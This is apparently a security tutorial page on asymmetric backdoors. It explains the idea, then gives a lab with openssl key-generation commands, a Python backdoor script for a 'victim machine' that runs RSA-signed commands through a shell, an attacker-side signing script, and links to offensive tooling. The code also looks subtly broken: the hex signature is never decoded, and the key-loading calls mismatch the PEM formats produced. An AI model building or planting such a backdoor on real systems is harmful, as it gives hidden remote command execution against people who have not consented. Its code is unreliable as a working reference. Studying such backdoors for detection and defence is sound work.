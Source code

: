 ```yaml
---
icon: keycdn
---
```


# Asymmetric Backdoor

## Introduction

An **asymmetric backdoor** is a type of backdoor that uses **asymmetric cryptography** (public-key cryptography) to allow unauthorized access while ensuring that only the attacker with the corresponding private key can exploit it. This approach enhances stealth and security for the attacker, making detection and removal more difficult.

## How It Works?

* **Public-Key Encryption:** The attacker embeds a public key in the backdoor.
* **Secure Command Execution:** When an attacker wants to trigger the backdoor, they send a specially crafted command encrypted with their private key.
* **Validation & Execution:** The backdoor decrypts the command using the embedded public key and executes it only if the signature is valid.
* **Stealthy Communication:** Since only the attacker has the private key, others cannot generate valid commands, reducing the chance of discovery.

## Why Asymmetric Key?

* **No Hardcoded Passwords** – Unlike traditional backdoors, which use fixed credentials, an asymmetric backdoor prevents unauthorized access by other attackers.
* **Hard to Detect** – Traffic looks like normal encrypted communication, making it difficult for security tools to flag.
* **No Key Exchange Needed** – The attacker doesn’t need to retrieve a symmetric key from the target, reducing the risk of interception.

## Lab Setup

**Asymmetric backdoor** lab setup using **Python** and **RSA encryption** to securely execute commands on a target system.

**This backdoor will:**

1. **Use RSA encryption** to authenticate the attacker.
2. **Embed a public key** in the backdoor.
3. **Execute only valid commands** signed by the attacker's private key.

{% hint style="success" %}
**You need two machines:**\
\- **Attacker Machine** (your system)\
\- **Victim Machine** (target system)
{% endhint %}

**Step 1: Generate RSA Key Pair**

```
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048
openssl rsa -in private.pem -pubout -out public.pem
```

{% hint style="success" %}
* `private.pem` → Used by the attacker to sign commands.
* `public.pem` → Placed in the backdoor on the victim machine.
{% endhint %}



**Step 2: Setup the Backdoor on the Victim Machine**

Create a backdoor script that only executes commands signed by the attacker's private key.

```python
import os
import subprocess
import rsa

# Load attacker's public key
with open("public.pem", "rb") as pub_file:
    public_key = rsa.PublicKey.load_pkcs1(pub_file.read())

def verify_and_execute(signed_command, command):
    try:
        # Verify the command with the public key
        rsa.verify(command.encode(), signed_command, public_key)
        print(f"[+] Executing: {command}")
        output = subprocess.check_output(command, shell=True, text=True)
        return output
    except rsa.VerificationError:
        return "[-] Signature verification failed!"

# Start listening for commands
while True:
    signed_command = input("[+] Enter the signed command: ").encode()
    command = input("[+] Enter the original command: ")
    
    result = verify_and_execute(signed_command, command)
    print(result)

```

* This script **loads the attacker's public key**.
* It **verifies signed commands** before executing them.
* If the signature doesn’t match, the command is rejected.



#### **Step 3: Sign Commands on the Attacker Machine**

On the **attacker's machine**, sign the command using the **private key**.

```python
import rsa

# Load attacker's private key
with open("private.pem", "rb") as priv_file:
    private_key = rsa.PrivateKey.load_pkcs1(priv_file.read())

def sign_command(command):
    signed_command = rsa.sign(command.encode(), private_key, "SHA-256")
    return signed_command

command = input("Enter command to sign: ")
signed = sign_command(command)

print("[+] Signed Command:")
print(signed.hex())  # Send this to the victim machine

```

* This script **signs a command** with the attacker's private key.
* The signed command is **sent to the victim for execution**.



**Step 4: Running the Attack**

* **Attacker Signs a Command**
  * Run `sign_command.py` on your **attacker machine**.
  * Enter a command (e.g., `whoami`).
  * Copy the **signed command output**.
* **Victim Executes the Signed Command**
  * Run `backdoor.py` on the **victim machine**.
  * Paste the **signed command** and the **original command**.
  * If the signature is valid, the command runs.



***

## Tools

* [https://github.com/infobyte/evilgrade](https://github.com/infobyte/evilgrade)
* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)
* [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




